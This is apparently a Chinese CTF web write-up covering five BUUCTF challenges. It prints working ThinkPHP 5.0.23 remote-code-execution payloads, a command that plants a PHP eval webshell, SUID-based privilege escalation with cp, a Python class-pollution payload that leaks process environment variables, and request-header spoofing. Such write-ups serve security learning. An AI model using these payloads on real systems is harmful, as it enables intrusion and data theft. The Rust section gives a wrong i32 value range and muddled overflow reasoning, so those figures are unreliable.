

[buuctf] web区 write up 6
===

## [NewStarCTF 2023 公开赛道]Final

> 题目描述: Best wishes for you. just search!

打开靶机是一个 Think PHP 5.x 版本的首页;


扫了一下没有什么特别明显的信息泄露, 那么切入点应该在 Think PHP V5 框架上;

### Think PHP 框架

首先有必要了解一下 MVC 架构;

#### MVC 架构

MVC, 就是 **模型-视图-控制器** 架构, 也可以理解为一种开发模式; 三者各有分工:

- 模型 (Model): 负责编写 module 类, 存储和操作系统的**中心数据**, 这里应该存放纯粹的**业务逻辑**。

- 视图 (View): 主要负责把数据**渲染**为 html/json 类, 将信息显示给用户, 也就是**前台显示**。

- 控制器 (Controller): 编写 class 类文件, 处理用户输入的信息。接受请求, 校验/解析输入, 调用业务逻辑: 负责从视图读取数据, 控制用户输入, 并向模型发送数据。简单来说其作用接近于**用例入口点**或者**调度/翻译器**。

> 注: 控制器 (Controller) 是不同于中间件的, 且一般来说也不会把 WAF 的主体放在这里而是中间件 (middleware)和 Proxy 上, 这样可以保证所有路由、静态资源、API 都统一受保护;

这种职责分离的清晰架构实际上在其他架构 (如 Express) 中也大量存在;

#### 兼容模式

在 Think PHP 5.x 版本中, `index.php?s=` 是**兼容 URL 模式**的入口参数, 用于制定路由; 其调用格式为 `s=模型/控制器/方法`; 例如 `index.php?s=index/index/index` 就表示 "index 模块 → index 控制器 → index 方法";

通常情况下, 不加 `s=` 表示默认绑定路由 (default_module), 加了之后就表示兼容模式(可配置关闭); 

首先尝试兼容模式的路由, 回显错误并返回了版本号: 5.0.23


搜了一下这个版本主要的 RCE:

#### CVE-2018-20062

> 影响版本: 5.0.23 前

典型利用: `/index.php?s=captcha` 下 POST:

```
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami
```

#### CVE-2019-9082

典型利用: GET `/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami`

### RCE 利用

试试 CVE-2018-20062, 其中 `filter[]` 为调用函数, `&server[REQUEST_METHOD]` 为函数的参数, 先试试 `system('whoami')`:


没有收到回复, 可能是 `system` 被禁用了, 试试其他函数: `phpinfo()`, 修改 `vars[1][]` 为 1,2... 可以查看到不同的部分;


有回显, 确认 RCE 存在, 说明之前的指令是被 WAF 挡了;

注意到这里: `vars[1][]` = `8` 时回显:


考虑传一个 webshell, 试试 exec 有没有被挡:

payload:

```
_method=__construct&filter[]=exec&method=get&server[REQUEST_METHOD]=echo '<?php eval($_POST['shell']);?>' > /var/www/public/shell.php
```

> 注意, Think PHP MVC 架构下 public 目录就是网站根目录路由;


下一步需要提权;

### 提权

既然要提权, 还是反弹 shell 比较方便, webshell 上试了一下用不了 `find` 命令, 连上 ovpn, 然后连接 webshell 传个简单的反弹 shell 上去并访问一下即可把 shell 弹回来:


```bash
# priveca 中有专题总结提权
# 寻找SUID（Set User ID）位设置为 root 的二进制文件。这些文件在某些情况下可以被攻击者利用来获得更高权限，例如从普通用户提权到 root。
find / -perm -u=s -type f 2>/dev/null
```

注意这里提示 `cp` 执行该二进制文件时, 进程实际权限会变成 文件所有者, 也就是 `root`; 那么将一个无权限读的文件 `cp` 到一个当前用户有权限有权限读的目录, 例如 `/tmp` 即可完成读操作;

```bash
cp /flag_dd3f6380aa0d /tmp/flag
```

直接这样拷贝后, 尝试 `cat /tmp/flag` 依然不可读, 这是因为 `cp` 对于不存在的文件时会复制其所有权, 要解决这个问题, 只需要先在 `/tmp` 目录下以当前用户的身份创建一个 `flag1.txt` 文件, 然后再运行 `cp` 命令, 这样由于文件已经存在, 就会跳过权限复制, 而只复制内容, 也就可读了, 到这里提权也就结束了, 读出 flag: `flag{0076bda8-e464-4269-80cd-c89d444adf40}`


### 总结

这道题的运用点还是挺多的, 覆盖了信息收集 + 简单 RCE bypass + 提权, 算一道好题。

## [VNCTF2022公开赛]GameV4.0

> 题目描述: 你会踩冰块吗?

### 题解

点进去是一个小游戏, 最后一关名字就叫 flag, 看一下源代码, 是一个 js 驱动的游戏, 找了半天没有头绪, 最后在 `data.js` 里面发现一串可疑数据:



base64 + url 解码后就是 `VNCTF{Welcome_to_VNCTF2022}`, 直接就是最终 flag, 有点无语， 没什么意思的签到题。

## [DASCTF 2023 & 0X401七月暑期挑战赛]EzFlask

### 代码审计

典中典之开面见源码, 给的是 `app.py`:



```python
import uuid

from flask import Flask, request, session
from secret import black_list
import json

app = Flask(__name__)
app.secret_key = str(uuid.uuid4())

def check(data):
    for i in black_list:
        if i in data:
            return False
    return True

def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class user():
    def __init__(self):
        self.username = ""
        self.password = ""
        pass
    def check(self, data):
        if self.username == data['username'] and self.password == data['password']:
            return True
        return False

Users = []

@app.route('/register',methods=['POST'])
def register():
    if request.data:
        try:
            if not check(request.data):
                return "Register Failed"
            data = json.loads(request.data)
            if "username" not in data or "password" not in data:
                return "Register Failed"
            User = user()
            merge(data, User)
            Users.append(User)
        except Exception:
            return "Register Failed"
        return "Register Success"
    else:
        return "Register Failed"

@app.route('/login',methods=['POST'])
def login():
    if request.data:
        try:
            data = json.loads(request.data)
            if "username" not in data or "password" not in data:
                return "Login Failed"
            for user in Users:
                if user.check(data):
                    session["username"] = data["username"]
                    return "Login Success"
        except Exception:
            return "Login Failed"
    return "Login Failed"

@app.route('/',methods=['GET'])
def index():
    return open(__file__, "r").read()

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5010)
```



审计了一下, 然后尝试注册并登录, 并没有什么用, 也没有什么明显的 ssti 注入的点, 看到 merge() 函数, 考虑原型链污染;

### python 原型链污染

> 参考: 这篇写的很好[Python 原型链污染变体](https://www.cnblogs.com/Article-kelp/p/17068716.html)

#### 原理

python 可以通过这种原型链污染来修改一些类属性 (某些情况下甚至是全局参数); 这个利用链和 ssti 模板注入的原理是类似的, 本质上是因为 python 面向对象, 在 python 中万物皆对象, 都是由某父类继承而来, 比如这题的源码中, 修改 `__file__` 来读取其他文件源码; 

#### 示例

源码:



<!-- tab merge.py-->

```python
def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
```

<!--endtab-->

<!-- tab 自定义属性污染-->

```python
class father:
    secret = "haha"

class son_a(father):
    pass

class son_b(father):
    pass

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

instance = son_b()
payload = {
    "__class__" : {
        "__base__" : {
            "secret" : "no way"
        }
    }
}

print(son_a.secret)
#haha
print(instance.secret)
#haha
merge(payload, instance)
print(son_a.secret)
#no way
print(instance.secret)
#no way
```

这段源码的利用链和 SSTI 是类似的, 通过 python 万物皆对象的原理往上污染。一个典型的 "由实例向上走到类再到基类, 然后写入共享类属性" 的污染链路。

<!--endtab-->

<!-- tab 内置属性污染-->

```python
# ...

instance = son_b()
payload = {
    "__class__" : {
        "__base__" : {
            "__str__" : "Polluted ~"
        }
    }
}

print(father.__str__)
#<slot wrapper '__str__' of 'object' objects>
merge(payload, instance)
print(father.__str__)
#Polluted ~
```

内置属性也是可以污染的, 利用链和 SSTI 是类似的。

<!--endtab-->

<!-- tab 无法污染的情况-->

```python
def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

payload = {
    "__class__" : {
            "__str__" : "Polluted ~"
        }
    }

merge(payload, object)
#TypeError: can't set attributes of built-in/extension type 'object'
```

并不是所有的类的属性都可以被污染，如 Object 的属性就无法被污染，所以需要目标类能够被切入点类或对象可以通过属性值查找获取到

<!--endtab-->

<!--tab 无继承/全局变量污染 -->

```python
secret_var = 114

def test():
    pass

class a:
    def __init__(self):
        pass

print(test.__globals__ == globals() == a.__init__.__globals__)
#True
```

```python
secret_var = 114

def test():
    pass

class a:
    secret_class_var = "secret"

class b:
    def __init__(self):
        pass

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

instance = b()

payload = {
    "__init__" : {
            "__globals__" : {
                "secret_var" : 514,
                "a" : {
                    "secret_class_var" : "Pooooluted ~"
                }
            }
        }
    }

print(a.secret_class_var)
#secret
print(secret_var)
#114
merge(payload, instance)
print(a.secret_class_var)
#Pooooluted ~
print(secret_var)
#514
```

原理和 SSTI 依然是类似的, 利用的是 python 中函数和方法均具有一个 `__globals__` 属性, 该属性将函数或类方法所申明的变量空间中的全局变量以字典的形式返回。最经典的利用链就是 `.__init__.__globals__`, 进一步来获取其内置函数 ( `.__builtins__`) 或者全局变量。

通过这个方式, 可以修改无继承关系的类属性甚至全局变量。

<!--endtab-->



#### 实际利用

实际环境中往往是多层模块导入，甚至是存在于内置模块或三方模块中导入，这个时候通过直接看代码文件中 `import` 语法查找就十分困难，而解决方法则是利用 `sys` 模块

`sys` 模块的 `modules` 属性以字典的形式包含了程序自开始运行时所有已加载过的模块，可以直接从该属性中获取到目标模块:

---

那么什么地方有 `sys`? 一般是**利用 `Python` 中的加载器`loader`**。简单来说只要获取到了任何 `loader` 就一定能通过 `loader.__init__.__globals__['sys']` 拿到 `sys` 模块, 从而能拿到任何模块 (通过 `__import__`);

---

如何拿到 `loader` ? **任何非 debug 模式下的 python3 模块的 `__loader__` 属性都有对应的类**, 且 *python 3.4* 后由于有 `__spec__`, 可以通过 **`<模块名>.__spec__.__init__.__globals__['sys']`**/ `<模块名>.__spec__.loader.__init__.__globals__['sys']` 直接获取到 `sys` 模块;

### 构造 payload

#### 前置

在构造 payload 前, 还需要知道这两个常用利用:

`__defaults__`: 以元组的形式按从左到右的顺序收录了函数的位置或键值形参的默认值;

> 参考: [知乎](https://zhuanlan.zhihu.com/p/412273465)

示例:

```python
def func_a(var_1, var_2 =2, var_3 = 3):
    pass

def func_b(var_1, /, var_2 =2, var_3 = 3):
    pass

def func_c(var_1, var_2 =2, *, var_3 = 3):
    pass

def func_d(var_1, /, var_2 =2, *, var_3 = 3):
    pass

print(func_a.__defaults__)
#(2, 3)
print(func_b.__defaults__)
#(2, 3)
print(func_c.__defaults__)
#(2,)
print(func_d.__defaults__)
#(2,)
```

> 注: `/` 和 `*` 本身不是参数, 其分别控制:
> - `/`: 左边的参数只能以位置, 不可用 `key=value` 形式传参;
> - `*`: 右边的参数只能通过键值对 `key=value`传递
> -  `__default__` 是不管 `*` 的参数的, 因为它只管位置, 而键值对是支持乱序的。

`__kwdefaults__`: 则正好相反, 只会返回键值对传参处的的默认参数;

#### bypass

这里过滤了 init, 有两种 bypass, 其一是利用 unicode 绕过 (json 支持 unicode), 其二是利用上下文中的 check 中来绕过;

> 原理: `obj.__class__.__init__` 实际上是返回的当前对象所属类中的**构造函数**, 由于下一步是要用 `__globals__` 读取该类中的全局命名空间, 因此和 `obj.__class__.<任意该类中构造的函数>.__globals__`在这里是读取的相同函数全局上下文;

最终 payload:

```json
{
	"username":"aaa",
	"password":"bbb",
	"__class__":{
        "check":{
            "__globals__":{
                "__file__" : "/proc/1/environ"
            }
        }
	}
}
```


爆出 flag。

#### 其他解: 爆 Flask debug PIN

这里还有一种解法, 就是利用 `debug` 模式下的控制台, 破解 PIN 码, 这里贴出地址: [CSDN](https://blog.csdn.net/Jayjay___/article/details/132123785)

## [BJDCTF 2nd]假猪套天下第一

### 收集信息

首先是一个登录界面, 暂时没发现 SQL 注入点, 随便输个账密进来, 发现发生了跳转, 跳转进了 (GET) `profile.php`, 期间抓个包可以发现, 提交表单的返回包中有提示:


接下来访问这个目录, 提示 99 年后才能开放, 观察响应包 set-cookie 中有个时间, 把这个时间拉的很大再重放, 又提示需要本地的访问, 添加 `X-Forwarded-For: 127.0.0.1`, 回显这个改包无效:


那再加上 `Origin: 127.0.0.1` 和 `Client-ip: 127.0.0.1`:


根据提示添加 `Referer`:


修改 `User-agent` 为 `Commodo 64` 后, 返回: "no no no i think it is not the real commmodo 64, <br>what is the real ua for Commdo?"

查了一下, 原来全称是 "Commodore 64", 修改之后有新回显:


添加: `From: root@gem-love.com`


再添加 `Via: y1ng.vip`:


base64 解码得到 flag: `flag{e23de73c-0076-41ed-a69d-ede5b815b9f9}`。

> 有点无聊的题; 不过确实能更了解一点包结构;

## [VNCTF2023]电子木鱼

### 代码审计

题目给了一份源码, 是一个电子木鱼商店(?), 总之攒公德够了就能买 flag:

```rust
...

#[derive(Serialize)]
struct APIResult {
    success: bool,
    message: &'static str,
}

#[derive(Deserialize)]
struct Info {
    name: String,
    quantity: i32,
}

#[derive(Debug, Copy, Clone, Serialize)]
struct Payload {
    name: &'static str,
    cost: i32,
}

const PAYLOADS: &[Payload] = &[
    Payload {
        name: "Cost",
        cost: 10,
    },
    Payload {
        name: "Loan",
        cost: -1_000,
    },
    Payload {
        name: "CCCCCost",
        cost: 500,
    },
    Payload {
        name: "Donate",
        cost: 1,
    },
    Payload {
        name: "Sleep",
        cost: 0,
    },
];

#[get("/")]
async fn index(tera: web::Data<Tera>) -> Result<HttpResponse, Error> {
    let mut context = Context::new();

    context.insert("gongde", &GONGDE.get());

    if GONGDE.get() > 1_000_000_000 {
        context.insert(
            "flag",
            &std::env::var("FLAG").unwrap_or_else(|_| "flag{test_flag}".to_string()),
        );
    }

    match tera.render("index.html", &context) {
        Ok(body) => Ok(HttpResponse::Ok().body(body)),
        Err(err) => Err(error::ErrorInternalServerError(err)),
    }
}

#[get("/reset")]
async fn reset() -> Json<APIResult> {
    GONGDE.set(0);
    web::Json(APIResult {
        success: true,
        message: "重开成功，继续挑战佛祖吧",
    })
}

#[post("/upgrade")]
async fn upgrade(body: web::Form<Info>) -> Json<APIResult> {
    if GONGDE.get() < 0 {
        return web::Json(APIResult {
            success: false,
            message: "功德都搞成负数了，佛祖对你很失望",
        });
    }

    if body.quantity <= 0 {
        return web::Json(APIResult {
            success: false,
            message: "佛祖面前都敢作弊，真不怕遭报应啊",
        });
    }

    if let Some(payload) = PAYLOADS.iter().find(|u| u.name == body.name) {
        let mut cost = payload.cost;

        if payload.name == "Donate" || payload.name == "Cost" {
            cost *= body.quantity;
        }

        if GONGDE.get() < cost as i32 {
            return web::Json(APIResult {
                success: false,
                message: "功德不足",
            });
        }

        if cost != 0 {
            GONGDE.set(GONGDE.get() - cost as i32);
        }

        if payload.name == "Cost" {
            return web::Json(APIResult {
                success: true,
                message: "小扣一手功德",
            });
        } else if payload.name == "CCCCCost" {
            return web::Json(APIResult {
                success: true,
                message: "功德都快扣没了，怎么睡得着的",
            });
        } else if payload.name == "Loan" {
            return web::Json(APIResult {
                success: true,
                message: "我向佛祖许愿，佛祖借我功德，快说谢谢佛祖",
            });
        } else if payload.name == "Donate" {
            return web::Json(APIResult {
                success: true,
                message: "好人有好报",
            });
        } else if payload.name == "Sleep" {
            return web::Json(APIResult {
                success: true,
                message: "这是什么？床，睡一下",
            });
        }
    }

    web::Json(APIResult {
        success: false,
        message: "禁止开摆",
    })
}

...
```

乍一看看起来非常像是反序列化漏洞, 和之前的区别之处在于这题是 Rust 写的, 仔细看了下好像也不用, 因为结构本身就提供了代币运算, Post 了两个参数:

```rust
#[derive(Deserialize)]
struct Info {
    name: String,
    quantity: i32,
}
```

估计这里就是要一直 "Loan" 就行:


显示成功了, 不过 flag 要 1,000,000,000 功德, Loan 一次才赊 1000 功德, 一共要执行 1,000,000 次; 这里有一个坑: 根据源码审计结果, 只有 `name` = `cost` 的时候, `quantity`参数才有意义, 此外的场景一次只能请求一个, 加上靶场有访问限制, 频率太快会 429, 基本不可能硬打, 这里基本可以肯定需要 quantity 取巧了;

### 整型溢出

进一步审计代码 quantity 的类型是 i32 , Rust 中默认有符号的 32 位整数, 取值范围: `-214748368 ~ 214748367`: 
那么假设当前功德为 0 , cost 消耗为 1, 直接令 quantity = `214748368`, 根据补码表示 (首位表示符号, 其他位全部取 0 ), 实际上服务器收到的数据是 quantity = `-214748368`, 实际上会获得这么多的功德, 实际上最后试了下, quantity 直接等于 `214748367` 或者 `214748368` 都行, 反正乘 10 之后的总账溢出了:

